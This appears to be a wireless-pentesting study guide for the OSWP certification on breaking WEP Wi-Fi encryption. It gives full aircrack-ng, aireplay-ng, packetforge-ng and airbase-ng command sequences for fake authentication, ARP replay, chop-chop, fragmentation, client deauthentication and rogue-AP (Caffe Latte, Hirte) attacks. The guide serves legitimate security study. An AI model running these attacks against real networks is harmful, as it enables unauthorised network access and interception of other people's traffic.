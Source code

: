 WEP

<br><img align="center" alt="Coding" width="400" height="150" src="https://github.com/cabby1234/OSWP-Reference-Guide/assets/131496256/1647bf83-445e-464e-81bb-2e8e91c0972e">

CRC-32 is a digest, just like MD5

An attacker can sniff packets, where the IV (24 bit) is in plain text. since 24 bit is not much, capturing enough packets, statistical attacks can be run. RC4 generates the same keystring for a same IV+key. #Data in airodump shows how many useful packets have been captured. When enough are present we can crack it with:
``aircrack-ng archivo.cap``

Sometimes aircrack doesn't return the ascii version of the key but we can connect to the network with the hex (without the ":" ). 

If not many clients are connected we can force the AP to send us traffic. We first need to associate with it (otherwise it ignores our requests), then we can send packets and capture the IVs in the packets it returns to us.

For this, keep saving packets:
``sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon``

and do a fake auth (the 0 indicates that the attack is done once):
``sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <la MAC de wlan0mon> wlan0mon``

In monitor mode, with ifconfig we see ``unspec`` instead of  ``ether`` and the MAC looks longer, we need only the first 6 bytes:
<font color=red>and for aireplay commands replace - by : </font>

At this point we are only associated to the AP, not connected to it. There are several methods to generate traffic:

#### Crafted ARP packets
Wait till there is an ARP packet (sent by the clients already connected to the network). They will be encrypted but because of their length we know they can be ARP. We just relay them to the AP. The AP will respond to us with another packet with a new IV. We do this until we have enough IVs.
To do this (just befor this command run the --fakeauth just in case)
It is necessary to use a target client MAC with -h, the MAC of a client that is already connected to the network and sends valid IVs
``sudo aireplay-ng --arpreplay -b <AP bssid> -h <target client MAC> wlan0mon``

<font color=red> The -a used in other commands is replaced by -b for the BSSID and the --arpreplay doesn't have any number afterward</font>
This captures packets until one of them is an ARP request, and then starts to generate traffic. Watch with airodump who many useful packets we have in ``#Data``.

<font color=red>to capture useful ARP packets we either need to be associated with the AP (fakeauth) or use with aireplay-ng arpreplay the MAC of an associated client</font>

Depending on the key length (64 or 128) bit it takes more IVs to crack the key

#### Stealthy sniffing
Just waiting for clients to send a lot of IVs to the AP can take a lot of time but it's stealty

#### Chop chop attack
Instead of replaying an ARP packet we determine the keystream of a packet, we craft a new packet with the keystream and inject it to the AP. The AP will respond with a new IV that we will replay, etc. Can be used when no clients are connected to the AP

<font color=red>The --fakeauth attack is only used against OPEN and WEP networks, it doesn't work against WPA/WPA2. Fake auth doesn't generate ARP packets. The lack of association with the access point is the biggest reason why injection fails, so we need to do fakeauth before trying to inject packets to WEP networks (ARP replay, chopchop, fragmentation attack).</font>
Sometimes you periodically get disassociation events. Some access points require to reassociate every 30 seconds, otherwise the fake client is considered disconnected. In this case, setup the periodic re-association delay:

```bash
aireplay-ng -1 30 -e 'the ssid' -a 00:13:10:30:24:9C -h 00:11:22:33:44:55 ath0
```
If fake authentication is never successful (aireplay-ng keeps sending authentication requests) then MAC address filtering may be in place

more info and troubleshooting in: https://www.aircrack-ng.org/doku.php?id=fake_authentication

```bash
# We first start airodump to capture packets and save them to a file
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# Then we do fake auth with aireplay to associate to the AP (run just before the chop chop attack). We can get our MAC with ifconfig wlan0
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC that we want to associate> wlan0mon

# chop chop attack (waits for beacons from AP to try to determine keystream from them)
sudo aireplay-ng --chopchop -b <AP bssid> -h <our wlan0mon MAC> wlan0mon

# When it finds an ARP packet it asks if we want to use it. say "y". After a while it saves the keystream in a xor file. We can do ctrl-C to not wait much, but the saved keystream may fail. If so, keep the chop chop working for longer.

# After that, forge an ARP packet (-0 option)
packetforge-ng -0 -a <bssid> -h <our wlan0mon MAC address> -k 255.255.255.255 -l 255.255.255.255 -y <file.xor> -w <forged packet name>
# -k is destination IP (use 255.255.255.255)
# -l is source IP (use 255.255.255.255)
# <forged packet name> can be anything, it's the name of the forged packet

# having done --deauth again, use the forged packet:
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
# -2 is for replaying
# it asks again if we want to use the packet. say "y", this starts to generate traffic that airodump caputres
```


#### fragmentation attack
Similar to chop chop but we need to obtain 1500 bytes from the pseudo random generator algorithm (PRGA). With this attack another packet is forged, but it's faster than chop chop, although we need to be physically close to the AP so that it works better.

```bash
# Start saving packets
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# fake auth (the 0 instructs to do the attack once)
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC> wlan0mon

# Obtain PRGA
aireplay-ng --fragment -b <bssid> -h <our wlan0mon MAC> wlan0mon

# Say "y" when asked. It may fail several times and ask us if we want to use another. say "y" always. When one of the packets is useful it lets us know and saves the keystream in a .xor file

# forge a new packet (with -0 it creates an ARP packet)
packetforge-ng -0 -a <bssid> -h <nuestra mac de wlan0mon> -k 255.255.255.255 -l 255.255.255.255 -y <xor file> -w <output>

# inject the forged packet (remember to do fake auth just before this)
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
```


#### WEP SKA
Normally when we do fake auth with aireplay-ng to a WEP network we can see it becomes OPN, but some routers allow to configure Shared Key Authentication (SKA), which prevents that no one without that key can associate to the AP (unlike in OPEN networks, where anyone can associate). In networks with SKA set up we will see SKA after doing fake auth. 

It is possible to deauthenticate a connected client, and capture the SKA when he reconnects. With this key we can associate to the AP and try the previous attacks to recover the WEP key.

We can also inject an ARP packet using the MAC address of the client which is already connected to the AP. With this we can generate traffic to recover IVs and still crack the WEP password, despite not having the SKA.

```bash
sudo aireplay-ng --arpreplay -b <AP bssid> -h <MAC of a connected client> wlan0mon
```

The 802.11w standard protects against deauth attacks, buth must be supported by both the client and the AP

When we have cracked a WEP or WPA key we can decrypt captured traffic in wireshark:

``preferences > protocols > IEEE 802.11``, check "enable decryption", edit the decryption keys y create new entries. For WEP, use the key in hex format.`

If we don't have wireshark we can do:
```bash
airdecap-ng -w <wep key in hex> <pcap>
tshark -r <decrypted pcap>
```


### AP-less attacks: Caffe latte attack
We can craft packets by modifying the ICV (integrity check value, that is, a CRC) and the plantext of a message and do so in a way that the AP thinks that the message is legitimate.

With this we can modify a Gratuitous ARP packet and change it to an ARP request packet, to repeat the ARP attack

Client devices store the keys of the networks they already connected to in the past. If we create a fake AP that looks like on of the stored APs in the client PNL, he will connect to us and send WEP-encrypted data with the target AP key. Sometimes it sends also Gratuitous ARP packets, to say its IP and MAC
 In these messages we won't find the target MAC, and the target IP and sender IP are the same (that of the client). We as an AP send requests to the client, and he will return responses to us, from where we get valid IVs that can be cracked as always.

We don't have a valid WEP keys for the crafted packets, but due to the properties of XOR we can modify the packets that he sends us, and they will still be valid.


#### Hirte attack
AP-less attack
```bash
# create fake AP (-N for hirte attack)
airbase-ng -c 1 --essid "network1" -W 1 -N mon0

# capture packets
airodump-ng -c 1 mon0 --write Hirte

# wait for the client to connect, and ARP packets should start being replayed, 
```


### WEP cloacking 
WEP protection in which fake packets are sent into the air to make it difficult to crack WEP (they try to difficult the statistical attacks)
